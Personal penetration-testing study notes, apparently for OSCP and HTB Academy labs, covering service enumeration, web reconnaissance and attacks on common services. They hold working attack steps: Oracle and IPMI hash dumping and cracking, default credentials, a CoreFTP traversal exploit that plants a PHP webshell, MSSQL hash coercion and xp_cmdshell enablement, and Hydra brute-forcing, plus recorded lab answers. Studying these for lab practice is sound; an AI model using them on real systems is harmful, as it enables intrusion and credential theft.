# Connect as sysdba (highest privilege role)
sqlplus USERNAME/PASSWORD@TARGET/XE as sysdba
```

Inside SQL*Plus:
```sql
select * from user_tables;
select * from v$version;       -- Oracle version info
select username from all_users;

-- Extract stored password hash for a user (requires sysdba or DBA)
select name, password from sys.user$ where name = 'USERNAME';
```

> 📸 Screenshot: `odat.py all -s TARGET` output showing discovered SID + valid credentials found during brute-force

> 🔍 **Worth remembering generally:** `sys.user$` stores Oracle's internal auth hashes. Connected as sysdba, you can extract hashes for every account and crack them offline. Oracle pre-12c uses DES-based hashes that crack quickly with hashcat mode 3100.

> 🔧 **Technique:** the traditional Oracle test credentials are `scott/tiger`. Always try them before running odat's brute-force, they appear on older installs more often than expected. Also try `sys/oracle`, `system/manager`, and `system/oracle`.

> 🔧 **Technique:** odat's `all` mode runs every check sequentially which can be slow. Once you have a SID from `sidguesser`, run just `passwordguesser` against it with a targeted wordlist to save time.

> 🔗 **HackTricks**: [github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener](https://github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/README.md)

#### Tags: #OracleTNS #odat #sqlplus #DatabaseEnum #sysdba #OracleHash #Module6

---

### 6.4.13. IPMI Enumeration (Port 623 UDP)

IPMI (Intelligent Platform Management Interface) is an out-of-band management protocol running on a dedicated BMC (Baseboard Management Controller) chip. It lets admins remotely power on/off, access a console, and query hardware health independently of the OS. Badly configured IPMI is a gold mine: the RAKP handshake has a design flaw that lets any unauthenticated host retrieve a password hash for any valid username.

```bash
# UDP port scan
sudo nmap -sU -p623 TARGET

# MSF IPMI version probe
use auxiliary/scanner/ipmi/ipmi_version
set rhosts TARGET
run
```

**Dump IPMI password hashes (no credentials needed):**
```bash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts TARGET
set OUTPUT_JOHN_FILE /tmp/ipmi_hashes.txt
run
```

Output example: `[+] TARGET:623 - IPMI - Hash found: Administrator:AABBCCDD...(RAKP hex string)...`

**Crack with hashcat (mode 7300 = IPMI2 RAKP HMAC-SHA1):**
```bash
hashcat -m 7300 -w 3 -O /tmp/ipmi_hashes.txt /usr/share/wordlists/rockyou.txt
```

**Default credentials by vendor, worth trying before cracking:**

| Vendor | Default username | Default password |
|--------|-----------------|-----------------|
| Dell iDRAC | `root` | `calvin` |
| HP iLO | `Administrator` | `<printed on pull-tab label>` |
| Supermicro | `ADMIN` | `ADMIN` |
| Intel | `admin` | `admin` |

> 📸 Screenshot: MSF `ipmi_dumphashes` output showing hash retrieved for Administrator; hashcat output showing cracked plaintext password

> 🔍 **Worth remembering generally:** IPMI hashes are RAKP (Remote Authenticated Key-Exchange Protocol) format, not standard NTLM or SHA. The raw hash file from `ipmi_dumphashes` is directly hashcat-compatible with `-m 7300`. Point hashcat straight at the output file.

> 🔧 **Technique:** IPMI often reuses the same password as the iDRAC/iLO web interface and sometimes mirrors the local root password on the underlying OS. A cracked IPMI hash is frequently reusable for SSH or the management web UI on the same host.

> 🔁 **Similar to:** [[16. Password Attacks|Password Attacks]] (same hash-crack workflow); 6.4.6 SNMP (same out-of-band management mindset, underestimated protocol with big return).

> 🔗 **HackTricks**: [github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/623-udp-ipmi](https://github.com/HackTricks-wiki/hacktricks/blob/master/network-services-pentesting/623-udp-ipmi.md)

#### Tags: #IPMI #BMC #RAKP #Hashcat #MetasploitAux #OutOfBand #iDRAC #iLO #Module6

---

### 6.4.14. Service Enumeration Decision Flow

When a port comes up in your initial scan, here's the triage order across everything in 6.4:



**Pending hands-on labs for this service-enumeration block** (HTB Footprinting module, accessible outside the Offsec VPN):
> 🚩 Hands-on, VM spin-up required: HTB Footprinting Lab, Easy (FTP/NFS to credential chain). ⬜ Pending
> 🚩 Hands-on, VM spin-up required: HTB Footprinting Lab, Medium (NFS + MSSQL + credential chain). ⬜ Pending
> 🚩 Hands-on, VM spin-up required: HTB Footprinting Lab, Hard (full service enumeration gauntlet, IPMI + others). ⬜ Pending

#### Tags: #ServiceEnumeration #DecisionFlow #Module6

---

## 6.5. LLM-Powered Active Information Gathering

LLMs can help generate **targeted wordlists** for active recon (e.g. DNS subdomain brute-forcing) based on inferred company structure/sector, rather than relying purely on a generic off-the-shelf wordlist.

**Example prompt to generate a subdomain wordlist:**
```
Using public data from MegacorpOne's website and any information that can be
inferred about its organizational structure, products, or services, generate
a comprehensive list of potential subdomain names.
- Incorporate common patterns (infrastructure, service-specific, departmental,
  regional terms).
- Compile 1000 unique, lowercase entries, no duplicates, no bullet points,
  ready to copy-paste.
```
ChatGPT can return this inline or as a downloadable file, save it as `wordlist.txt`.

**Using the LLM-generated wordlist with Gobuster:**
```bash
sudo apt update
sudo apt install gobuster

gobuster dns -d megacorpone.com -w wordlist.txt -t 10
```
`-d` = target domain, `-w` = wordlist, `-t 10` = 10 concurrent threads. (Note: Gobuster >3.6 uses `--do` instead of `-d` for domains, check `--help` first if a flag doesn't seem to behave as expected.)

**Why this matters:** a generic wordlist is one-size-fits-all. An LLM-tailored one is shaped around the actual target's naming conventions (industry terms, department names, regional codes), meaningfully increasing your hit rate for real subdomains.

#### Tags: #LLM #Gobuster #WordlistGeneration #DNSBruteForce #SubdomainEnumeration

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| How do LLMs improve DNS enumeration? | **B) By generating highly customized wordlists based on target-specific patterns.** |

#### Tags: #Lab #Quiz #Module6

---

## 6.6. Web Reconnaissance

The Offsec module doesn't cover web-specific recon at all (that's handled separately in the Web Application modules once you're past initial footprinting), this section closes that gap with the HTB Information Gathering - Web Edition content: virtual host discovery, web fingerprinting, crawling for embedded secrets, and passive recon via archived snapshots. Almost no overlap with anything above.

### 6.6.1. Virtual Host (vHost) Enumeration

**Virtual hosting** lets a single web server serve multiple websites from the same IP address by routing requests based on the `Host:` header the client sends. From a recon perspective, there may be additional subdomains/vhosts on a target IP that don't appear in public DNS and won't resolve unless you add them to `/etc/hosts` yourself.

**Add target to /etc/hosts first** (every vhost technique below requires this):
```bash
sudo sh -c "echo 'TARGET_IP domain.htb' >> /etc/hosts"

# Adding multiple domains at once to the same IP
sudo sh -c "echo 'TARGET_IP inlanefreight.htb web1337.inlanefreight.htb' >> /etc/hosts"
```
The `/etc/hosts` file takes precedence over DNS, so any domain you add here resolves locally to the IP you specify, without needing a real DNS record.

**gobuster vhost mode**, brute-forces virtual host names by sending requests with the `Host:` header set to each wordlist entry:
```bash
gobuster vhost \
  -u http://inlanefreight.htb:PORT \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  --append-domain

# Bigger wordlist for more thorough coverage
gobuster vhost \
  -u http://inlanefreight.htb:PORT \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  -t 60 \
  --append-domain
```

Key flags:
| Flag | What it does |
|------|-------------|
| `--append-domain` | Appends the base domain to each wordlist word (so `web` becomes `web.inlanefreight.htb`). Without this, gobuster sends bare words in the Host header and gets no hits. Required for vhost mode. |
| `-t 60` | 60 threads, speeds up the scan significantly. Default is 10. |
| `--exclude-length N` | Filter out false-positive responses by excluding a specific response length. |

**Chaining: enumerate vhosts of a discovered vhost** (second-level fuzzing):
```bash
# Found web1337.inlanefreight.htb, now fuzz it for its own subdomains
gobuster vhost \
  -u http://web1337.inlanefreight.htb:PORT \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  -t 60 \
  --append-domain

# This finds: dev.web1337.inlanefreight.htb
```
Always chain vhost discovery. A first pass finds first-level vhosts, each discovered vhost is a candidate for further fuzzing.

> 📸 Screenshot: gobuster vhost output showing new subdomains (Status: 200) alongside the ports + response sizes

> 🔍 **Worth remembering generally:** gobuster `vhost` mode is different from `dir` mode. `dir` enumerates paths on a single host; `vhost` sends different `Host:` headers to the same IP to discover alternate virtual servers. Use `vhost` when you suspect multiple sites on the same IP, use `dir` to enumerate pages/directories within a known site.

> 🔧 **Technique:** if gobuster returns a large number of hits with the same response size, you're probably hitting a default catch-all response. Add `--exclude-length SIZE` with that size to suppress the noise. The remaining hits with different sizes are the real vhosts.

> 🔁 **Similar to:** 6.4.1's subdomain brute-forcing with `dnsenum`, similar concept but at the vhost level, targeting the web server's Host routing rather than DNS.

#### Tags: #VirtualHosts #gobuster #vhostEnum #hosts #HostHeader #Module6

---

### 6.6.2. Web Server Fingerprinting

The goal is to identify the exact software, version, and OS running the web server before hitting it with exploitation attempts. Four methods, each catches different things.

**Method 1: `curl -I` (HTTP response headers).** The `Server:` header often leaks the software name and version:
```bash
curl -I http://TARGET
# Server: Apache/2.4.41 (Ubuntu)    <- exact version + OS
# Server: nginx/1.26.1               <- or nginx, no OS disclosed
```
`-I` sends a HEAD request (headers only, no body), faster than a GET and just as useful for fingerprinting.

> 🔍 **Worth remembering generally:** not all servers disclose their version. Apache can be configured with `ServerTokens Prod` to show only `Apache` without the version. nginx by default shows `nginx/VERSION`. IIS shows `Microsoft-IIS/X.X`. If the header is stripped, move to method 2 or 3.

**Method 2: meta generator grep (CMS detection).** Many CMSs embed a `<meta name="generator">` tag in their HTML:
```bash
curl -s http://TARGET/ | grep '<meta name="generator"'
# <meta name="generator" content="Joomla! - Open Source Content Management" />
# <meta name="generator" content="WordPress 6.5.3" />
```

> 🔧 **Technique:** some CMSs only render the generator tag on specific pages, not the homepage. If the homepage returns nothing, try `/index.php`, `/wp-login.php` (WordPress), `/administrator/` (Joomla), or the login page, which tend to include more CMS-specific markup.

**Method 3: nikto** (automated vulnerability + fingerprinting scan). `-Tuning b` restricts it to "interesting files" only (outdated software, insecure files):
```bash
nikto -h http://TARGET
nikto -h http://TARGET -Tuning b
```
nikto also reports the OS alongside the Apache/nginx version in its output. Full `-Tuning` options (combinable, e.g. `-Tuning abc`):

| Code | Category | Code | Category |
|------|----------|------|----------|
| `0` | File Upload | `6` | Denial of Service |
| `1` | Interesting File / Seen in Logs | `7` | Remote File Retrieval, Server Wide |
| `2` | Misconfiguration / Default File | `8` | Command Execution / Remote Shell |
| `3` | Information Disclosure | `9` | SQL Injection |
| `4` | Injection (XSS/Script/HTML) | `a` | Authentication Bypass |
| `5` | Remote File Retrieval, Inside Web Root | `b` | Software Identification |
| | | `c` | Remote Source Inclusion |

> 🔧 **Technique:** nikto is noisy and will show up in access logs. On a real engagement, run it only after you've confirmed the scope and have permission for active scanning. For CTFs/OSCP labs, go ahead.

**Method 4: Wappalyzer** (browser extension, passive). Fingerprints technologies by analysing page responses in the browser (JS frameworks, analytics tools, CMS, server software, CDN), useful when you want passive fingerprinting without noisy scanner requests, since it cross-checks multiple signals (HTML, headers, cookies, JavaScript) at once.

> 📸 Screenshot: Wappalyzer extension panel showing detected technologies for a target site (CMS name, server software, JS framework, etc.)

#### Tags: #Fingerprinting #curl #nikto #Wappalyzer #ServerHeader #MetaGenerator #CMS #Module6

---

### 6.6.3. Web Crawling with scrapy / ReconSpider

Web crawlers follow links and harvest content from a site automatically. The HTB module uses a custom scrapy spider called **ReconSpider** that saves its findings in a structured `results.json` rather than raw HTML dumps, making it easy to grep for specific finding types.

```bash
# Install scrapy
pip3 install scrapy --break-system-packages

# Download and unzip ReconSpider
wget https://academy.hackthebox.com/storage/modules/279/ReconSpider.zip
unzip ReconSpider.zip
# -> ReconSpider.py extracted to current directory
```

**Run against a target:**
```bash
python3 ReconSpider.py http://TARGET
python3 ReconSpider.py http://dev.web1337.inlanefreight.htb:PORT
```
Output is saved to `results.json` in the current directory, overwriting any previous run.

**Parse results.json with jq:**
```bash
cat results.json | jq 'keys'              # see all top-level keys
cat results.json | jq '.comments'         # HTML comments: TODO notes, API keys, dev emails, internal paths
cat results.json | jq '.emails'           # email addresses
cat results.json | jq '.external_links'   # external links found by the crawler
cat results.json | jq '.internal_links'   # all paths on the target
cat results.json | jq '.js_files'         # JS files, check these for hardcoded keys/endpoints
```

**The high-value fields:**

| Field | What to look for |
|-------|-----------------|
| `.comments` | Dev notes, internal paths, email addresses, "TODO: change API key to X" style leftovers |
| `.emails` | Internal email addresses (often reveal internal domain structure, usernames for spraying) |
| `.js_files` | Paths to JavaScript files, check them manually for hardcoded tokens or API endpoints |
| `.external_links` | Links to S3 buckets, CDN domains, partner sites that may be in scope |
| `.internal_links` | All discovered paths, look for `/admin`, `/api`, `/dev`, `/backup` patterns |

**Quick one-liner without jq**, for when you just want a fast grep pass:
```bash
curl -s http://TARGET/ | grep -i '<!--' | grep -iE 'password|key|api|secret|token|todo|change'
```

> 📸 Screenshot: `cat results.json | jq '.comments'` output showing a `<!-- Remember to change API key to ba988b835be... -->` comment buried in the crawl output

> 🔍 **Worth remembering generally:** HTML comments are stripped from rendered pages in a browser, so they're invisible to users and often missed by developers in code review. Crawlers and `curl -s ... | grep '<!--'` catch them. They're one of the most reliable places to find hardcoded credentials and dev notes on web targets.

> 🔧 **Technique:** if the target requires authentication, the spider won't access protected pages. Run it first against the public-facing surface, note any login pages, then crawl authenticated sections with a tool like Burp Spider that can handle sessions.

> 🔁 **Similar to:** [[06. Information Gathering#6.2.4. Open-Source Code (GitHub, GitLab, Gist, SourceForge)|6.2.4 GitHub secret hunting]], same "accidental disclosure" pattern, different surface.

#### Tags: #WebCrawling #scrapy #ReconSpider #HTMLComments #jq #EmailHarvesting #Module6

---

### 6.6.4. Web Archives (Wayback Machine)

The **Internet Archive Wayback Machine** (web.archive.org) stores periodic snapshots of websites going back to 1996. Useful for finding content that's been removed, old redirect destinations, historical API keys in comments, old admin panels, and technology changes over time.

**Basic workflow:** browse to web.archive.org, enter the target domain, pick a date from the calendar view (blue/green circles = snapshots available that day), click through to load the archived version.

**What to look for:**

| Pattern | What it reveals |
|---------|----------------|
| Old redirects | A domain that once redirected elsewhere, if that destination is re-registerable, potential takeover |
| Removed pages | Old `/admin`, `/backup`, or API endpoint pages that no longer 404 on the live site |
| Historical comments | Old source code visible in archive, check for hardcoded credentials that were "removed" later |
| Technology changes | See when WordPress was replaced with a custom CMS, implies old WP vulns may still exist on dev/staging |
| Old subdomains | Referenced in archived pages but since removed from DNS |

> 🔍 **Worth remembering generally:** removing content from a live site does not remove it from the Wayback Machine. If credentials were ever hardcoded in a comment and that page was crawled, they're in the archive. This is why "we already removed it" is not an acceptable risk response in a pentest debrief.

**Searching archived content programmatically (the Wayback CDX API):**
```bash
# List all crawl timestamps for a domain in JSON
curl "https://web.archive.org/cdx/search/cdx?url=*.example.com/*&output=json&fl=original,timestamp&collapse=urlkey" | head -50

# Search for specific file types in archive
curl "https://web.archive.org/cdx/search/cdx?url=example.com/&output=json&matchType=prefix&fl=original" | grep ".php"
```

> 📸 Screenshot: Wayback Machine calendar view for a target domain showing snapshot availability + the archived page with different/removed content versus the live version

> 🔧 **Technique:** the CDX API is more useful for programmatic searches across many snapshots than the web UI. Point it at a wildcard (`*.domain.com/*`) to find all archived URLs across all subdomains, useful for finding hidden subdomains that existed historically.

#### Tags: #WaybackMachine #WebArchives #PassiveRecon #HistoricalContent #CDX #Module6

---

### 6.6.5. robots.txt as a Recon Source

The **robots.txt** file tells crawlers what not to index. From a recon perspective, `Disallow:` entries are a roadmap to hidden or sensitive endpoints the site owner specifically wanted hidden from search engines, complementing 6.2.2's Google-dork discovery of the same file with a direct, deliberate check.

```bash
curl http://TARGET/robots.txt
curl http://VHOST:PORT/robots.txt
```

Classic pattern:
```
User-agent: *
Allow: /index.html
Disallow: /admin_h1dd3n        <- investigate this
Disallow: /api/internal        <- investigate this
Disallow: /backup              <- investigate this
```

> 🔍 **Worth remembering generally:** `Disallow` in robots.txt is not a security control. It's a polite request to well-behaved crawlers. Any human or malicious bot will happily browse to a `Disallow`-ed path. It's purely advisory.

> 🔧 **Technique:** after curling robots.txt, build a checklist of every `Disallow` entry and hit each one manually with `curl -I` first (HEAD request) to see if it returns 200, 301, 403, or 404 before making a full GET. A 301 redirect to a different path is especially interesting.

```bash
# Quick: extract all Disallow entries from robots.txt
curl -s http://TARGET/robots.txt | grep "Disallow" | awk '{print $2}'
```

> 🔁 **Similar to:** 6.4.3's NSE `http-enum` + curl robots.txt workflow, same idea, NSE finds the file, curl reads it, you follow the disallowed paths manually.

#### Tags: #RobotsTxt #Disallow #HiddenEndpoints #WebRecon #Module6

---

### 6.6.6. Web Recon Decision Flow



#### Tags: #DecisionFlow #WebRecon #Module6

---

### 6.6.7. HTB Skills Assessment Walkthrough

Full chain from the HTB skills assessment, useful as a repeatable methodology template:

1. `whois inlanefreight.com | grep IANA`, IANA Registrar ID.
2. `sudo sh -c "echo 'TARGET_IP inlanefreight.htb' >> /etc/hosts"`
3. `curl -I http://inlanefreight.htb:PORT`, Server header reveals nginx version.
4. `gobuster vhost -u http://inlanefreight.htb:PORT -w subdomains-top1million-110000.txt -t 60 --append-domain`, finds `web1337.inlanefreight.htb`.
5. Add `web1337.inlanefreight.htb` to `/etc/hosts`.
6. `curl http://web1337.inlanefreight.htb:PORT/robots.txt`, Disallow: `/admin_h1dd3n`.
7. `curl http://web1337.inlanefreight.htb:PORT/admin_h1dd3n/`, API key in page HTML.
8. `gobuster vhost -u http://web1337.inlanefreight.htb:PORT ... --append-domain`, finds `dev.web1337.inlanefreight.htb`.
9. Add `dev.web1337.inlanefreight.htb` to `/etc/hosts`.
10. `python3 ReconSpider.py http://dev.web1337.inlanefreight.htb:PORT`
11. `cat results.json | jq '.emails'`, internal email address.
12. `cat results.json | jq '.comments'`, comment with new API key.

**Lab status: ✅ Completed** (skills assessment + all section questions, no hands-on Offsec VM labs in this HTB module, every exercise ran against live internet or spawned web targets):

| Question | Answer |
|---|---|
| IANA ID of registrar for inlanefreight.com? | **468** |
| HTTP server software on inlanefreight.htb? | **nginx** |
| API key in hidden admin directory? | **e963d863ee0e82ba7080fbf558ca0d3f** |
| Email address found by crawling? | **1337testing@inlanefreight.htb** |
| New API key found in page comment? | **ba988b835be4aa97d068941dc852ff33** |
| WHOIS: PayPal IANA ID | **292** |
| WHOIS: Tesla admin email | **admin@dnstinations.com** |
| DNS: IP for inlanefreight.com | **134.209.24.248** |
| DNS: PTR for 134.209.24.248 | **inlanefreight.com** |
| DNS: Facebook MX record | **smtpin.vvv.facebook.com.** |
| Subdomain brute-force: missing subdomain (inlanefreight.com) | **my.inlanefreight.com** |
| Zone Transfers: DNS records from AXFR | **22** |
| Zone Transfers: IP for ftp.admin.inlanefreight.htb | **10.10.34.2** |
| Zone Transfers: largest IP in 10.10.200 range | **10.10.200.14** |
| Virtual Hosts: vhost prefixed "web" | **web17611.inlanefreight.htb** |
| Virtual Hosts: vhost prefixed "vm" | **vm5.inlanefreight.htb** |
| Virtual Hosts: vhost prefixed "br" | **browse.inlanefreight.htb** |
| Virtual Hosts: vhost prefixed "a" | **admin.inlanefreight.htb** |
| Virtual Hosts: vhost prefixed "su" | **support.inlanefreight.htb** |
| Fingerprinting: Apache version on app.inlanefreight.local | **2.4.41** |
| Fingerprinting: CMS on app.inlanefreight.local | **Joomla** |
| Fingerprinting: OS on dev.inlanefreight.local | **Ubuntu** |
| Creepy Crawlies: future reports location (from comment) | **inlanefreight-comp133.s3.amazonaws.htb** |
| Web Archives: HTB Pen Testing Labs count (Aug 8 2018) | **74** |
| Web Archives: HTB members (Jun 10 2017) | **3054** |
| Web Archives: facebook.com redirect (Mar 2002) | **http://site.aboutface.com/** |
| Web Archives: PayPal "beam money" product (Oct 1999) | **Palm 0rganizer** |
| Web Archives: Google prototype address (Nov 1998) | **http://google.stanford.edu/** |
| Web Archives: IANA last updated date (Mar 2000) | **17-December-99** |
| Web Archives: Wikipedia English articles (Feb 9 2003) | **104155** |

#### Tags: #Lab #Quiz #SkillsAssessment #Module6

---

## 6.7. Wrapping Up

Key takeaways:
- Info gathering is genuinely **iterative**, passive and active recon feed each other in cycles, round after round, not a single step you do once and move on from.
- There's no single "best" tool. Kali has heavy overlap between tools doing similar jobs (e.g. `dnsrecon` vs `dnsenum`, `nc` vs `nmap` for basic scans). Familiarity with several matters more than finding "the one."
- When Kali isn't available, **LOLBAS**/PowerShell gets you most of the way on a bare Windows box.
- LLMs are a genuinely useful *accelerant* for both passive OSINT and active wordlist generation, but always cross-check their output against a real tool or source.

---

## 6.8 HTB Extended Techniques: Attacking Common Services

Content merged from the HTB Academy "Attacking Common Services" module (CS.1-CS.14). Service-specific attack techniques that extend beyond enumeration into exploitation, covering FTP, MSSQL, DNS, SMTP/POP3, and SMB.

---

### 6.8.1 CoreFTP 725 -- Directory Traversal (CVE-2022-22836)

CoreFTP Server before build 727 allows an authenticated attacker to write files outside the FTP root via `../` sequences in an HTTP PUT request over the CoreFTP HTTPS port (443 by default). Writes a PHP webshell into the Apache `htdocs` directory.

```bash
# Step 1: check searchsploit for the exploit
searchsploit CoreFTP
# → CoreFTP Server build 725 - Directory Traversal (Authenticated) | windows/remote/50652.txt
searchsploit -x windows/remote/50652.txt

# Step 2: get a random filename
openssl rand -hex 16
# → 1af271ec0935f7ccbd31dc24666f7f33

# Step 3: PUT the webshell via CoreFTP HTTPS (NOT standard FTP port)
# --path-as-is is CRITICAL -- without it curl normalises the ../ sequences
curl -k -X PUT \
  -H "Host: TARGET_IP" \
  --basic -u fiona:987654321 \
  --data-binary '<?php echo shell_exec($_GET["c"]);?>' \
  --path-as-is \
  https://TARGET_IP/../../../../../../xampp/htdocs/1af271ec0935f7ccbd31dc24666f7f33.php

# Step 4: execute via standard HTTP (Apache, not CoreFTP HTTPS)
curl -w "\n" "http://TARGET_IP/1af271ec0935f7ccbd31dc24666f7f33.php?c=whoami"
curl -w "\n" "http://TARGET_IP/1af271ec0935f7ccbd31dc24666f7f33.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt"
```

> 🔧 `--path-as-is`: tells curl not to normalize `../` sequences. Without it, the traversal fails silently.
> 🔧 The traversal depth (`/../../../../../../`) must overshoot the root -- excess `../` segments are harmless, the OS stops at the filesystem root.
> 🔍 CoreFTP runs two separate daemons: FTP on port 21 and an HTTP server on 443. The PUT targets the HTTP component; the credentials are FTP credentials. GET the webshell on Apache HTTP (port 80), not the CoreFTP HTTPS port.

🔁 Similar to: [[09. Common Web Application Attacks#Path Traversal|Common Web Application Attacks#Path Traversal]] -- same traversal concept at the FTP-server level.

#### Tags: #CoreFTP #CVE202222836 #PathTraversal #FileUpload #WebShell #HTTPS #PUT #Module6

---

### 6.8.2 MSSQL UNC Path Injection → NetNTLMv2 Capture

When you have a low-privilege MSSQL connection, coerce the MSSQL service account to authenticate to a Kali SMB share. Captures the service account's NetNTLMv2 hash.

```bash
# Start SMB capture listener (Kali)
sudo impacket-smbserver share ./ -smb2support
# -smb2support is REQUIRED for modern Windows -- without it auth fails silently
```

In the MSSQL session:
```sql
-- xp_dirtree resolves the UNC path, triggering authentication
EXEC master..xp_dirtree '\\KALI_IP\share'
go

-- xp_subdirs is an alternative if xp_dirtree is unavailable
EXEC master..xp_subdirs '\\KALI_IP\share'
go
```

The smbserver terminal shows:
```
[*] User WIN-02\mssqlsvc authenticated successfully
[*] mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:da87f7aa577b48e8361cf1b021e6bfca:010100...
```

```bash
# Save and crack
echo 'mssqlsvc::WIN-02:aaa...:hash...' > mssqlsvc.txt
hashcat -m 5600 mssqlsvc.txt /usr/share/wordlists/rockyou.txt
# → princess1
```

🔁 Similar to: NTLM relay / UNC coercion pattern in [[27. Assembling the Pieces#27.5.2|Module 27 Backup Migration plugin relay]] and [[23. Attacking Active Directory Authentication|Module 23]].

#### Tags: #MSSQL #UNCInjection #xpDirtree #NetNTLMv2 #impacketSMBserver #Module6

---

### 6.8.3 MSSQL Impersonation + Linked Server Attacks

**Impersonation -- `EXECUTE AS LOGIN`:**

```sql
-- Find which logins can be impersonated
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
go
-- → john, simon

-- Impersonate a privileged login
EXECUTE AS LOGIN = 'john'
go

-- Confirm impersonation and sysadmin
SELECT SYSTEM_USER, IS_SRVROLEMEMBER('sysadmin')
go
-- → john, 1 (sysadmin)

-- Revert to original context
REVERT
go
```

**Linked server attacks -- `EXECUTE...AT`:**

```sql
-- List linked servers
SELECT srvname, isremote FROM sysservers
go
-- → LOCAL.TEST.LINKED.SRV (isremote 0)

-- Test linked server privileges
EXECUTE('SELECT SYSTEM_USER, IS_SRVROLEMEMBER(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
go
-- → testadmin, 1

-- Enable xp_cmdshell ON the linked server (double-escaped quotes inside nested EXECUTE)
EXECUTE('EXECUTE sp_configure ''show advanced options'', 1; RECONFIGURE; EXECUTE sp_configure ''xp_cmdshell'', 1; RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
go

-- Read a file via xp_cmdshell on the linked server
EXECUTE('xp_cmdshell ''more C:\users\administrator\desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
go
```

> 🔧 Nested escaping: single quotes inside `EXECUTE('...')` strings require doubling (`''`). Inside a nested `EXECUTE` within a `EXECUTE...AT`, they require tripling. Get the nesting wrong and you get a syntax error.

#### Tags: #MSSQLImpersonation #EXECUTEAS #LinkedServer #EXECUTEAT #xpCmdshell #Module6

---

### 6.8.4 DNS Subdomain Brute Force -- subbrute

subbrute uses configurable resolvers (nameservers) for subdomain brute-force, enabling discovery of internal/split-horizon DNS records not visible through public resolvers.

```bash
# Clone subbrute
git clone https://github.com/TheRook/subbrute.git
cd subbrute/

# Point at the target nameserver (not 8.8.8.8)
echo TARGET_IP > resolvers.txt

# Brute-force subdomains
python3 subbrute.py inlanefreight.htb \
  -s /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  -r resolvers.txt
# → helpdesk.inlanefreight.htb, hr.inlanefreight.htb, ns.inlanefreight.htb

# Zone transfer each discovered subdomain and grep for TXT records (often contain flags or internal notes)
dig axfr hr.inlanefreight.htb @TARGET_IP | grep "TXT"
# → hr.inlanefreight.htb.  604800  IN  TXT  "HTB{LUIHNFAS2871SJK1259991}"
```

> 🔍 subbrute vs `gobuster dns`: subbrute lets you specify the resolver. `gobuster dns` queries your system's default DNS. When the target uses split-horizon DNS (internal records only on their nameserver), public resolvers return NXDOMAIN -- subbrute with `resolvers.txt` pointing at the target NS is the fix.

🔁 Extends: [[06. Information Gathering#6.4.1. DNS Enumeration|6.4.1 DNS enumeration]] -- subbrute adds the brute-force step before the zone transfer.

#### Tags: #DNS #subbrute #SubdomainBruteForce #ZoneTransfer #AXFR #SplitHorizon #Module6

---

### 6.8.5 Email Service Attacks -- Hydra SMTP/POP3 + Manual POP3 Session

**Hydra SMTP (full email address format):**

```bash
# SMTP auth sometimes uses the full email address as the username
hydra -l marlin@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://TARGET_IP -f
# → marlin@inlanefreight.htb:poohbear
```

**Hydra POP3:**

```bash
hydra -l simon -P mynotes.txt pop3://TARGET_IP
# → simon:8Ns8j1b!23hs4921smHzwn
```

**Manual POP3 session via nc (cleartext mailbox):**

```bash
nc -nv TARGET_IP 110
```

```
user simon             ← local part only, NOT @domain
pass 8Ns8j1b!23hs4921smHzwn
list                   ← shows message index + size
retr 1                 ← full message (headers + body, including SSH keys embedded in email)
quit
```

> 🔧 SMTP AUTH needs the full address (`marlin@domain`). POP3 `USER` command needs just the local part (`simon`). These differ.
> 🔧 If an SSH key is embedded in the `retr` output: `echo 'KEYONELINE' | sed 's/ /\n/g' > id_rsa` restores the PEM newlines.

🔁 Extends: [[06. Information Gathering#6.4.5. SMTP Enumeration|6.4.5 SMTP]] and [[06. Information Gathering#6.4.9. IMAP / POP3 Enumeration|6.4.9 POP3]] -- those sections cover enumeration; this section covers the brute-force + manual read chain.

#### Tags: #SMTP #POP3 #Hydra #HydraSMTP #HydraPOP3 #ncPOP3 #EmailBruteForce #Module6

---

### 6.8.6 SMB Enumeration + Anonymous Access

**enum4linux -- R/W detection on shares:**

```bash
enum4linux TARGET_IP
# Key output section: "Share Enumeration on TARGET_IP"
# //TARGET/GGJ   Mapping: OK, Listing: OK   ← anonymous read + list access
# //TARGET/print$  Mapping: DENIED           ← no access
```

**smbclient null session:**

```bash
# List shares anonymously
smbclient -N -L //TARGET_IP

# Connect to a share anonymously
smbclient -N //TARGET_IP/GGJ

# Connect with credentials
smbclient -U DOMAIN\\jason //TARGET_IP/GGJ
```

**smbclient navigation (backslash paths):**

```
smb: \> ls
smb: \> cd IT\Fiona\     ← backslash separator (not forward slash)
smb: \> get creds.txt
smb: \> prompt           ← toggle interactive prompts
smb: \> mget *           ← download all files (no per-file confirmation after prompt toggle)
```

> 🔧 smbclient `cd` uses backslash (`IT\Fiona\`), not forward slash. Forward slash works in some implementations but not all.
> 🔧 `prompt` + `mget *` = bulk download without per-file Y/N prompts.

🔁 Extends: [[06. Information Gathering#6.4.4. SMB Enumeration|6.4.4 SMB enumeration]] -- rpcclient for user/domain enumeration; smbclient null session for actual file access on shares.

#### Tags: #SMB #enum4linux #smbclientNull #NullSession #ShareEnum #mget #Module6

---

### 6.8.7 Hydra FTP Thread Throttling

Some FTP servers rate-limit connections. Hydra marks throttled responses as failed without warning -- `- t 1` is the fix:

```bash
# Standard Hydra FTP (may see 550 errors on throttled servers)
hydra -l fiona -P /usr/share/wordlists/rockyou.txt ftp://TARGET_IP

# Throttled version (1 thread, loops users before passwords)
hydra -l fiona -P /usr/share/wordlists/rockyou.txt ftp://TARGET_IP -u -t 1
# -t 1 = 1 task (thread) at a time
# -u = try each user per password before moving to next password
```

